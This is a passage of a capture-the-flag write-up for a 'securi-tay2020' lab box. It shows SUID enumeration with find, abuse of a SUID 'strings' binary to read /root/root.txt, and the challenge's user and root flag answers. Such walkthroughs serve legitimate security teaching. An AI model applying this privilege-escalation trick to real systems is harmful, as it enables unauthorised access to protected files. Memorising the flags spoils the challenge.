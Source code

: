 Trying `sudo -l` didn’t work, so I checked for SUID binaries:

```bash
find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Found:

```
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
```

This meant we could run `strings` with root privileges.

```bash
strings /root/root.txt
```

Output:

```
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```

---

## Flags

> Q1: User flag
> A1: securi-tay2020\_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

> Q2: Root flag
> A2: securi-tay2020\_{6f125d32f38fb8ff9e720d2dbce2210a}
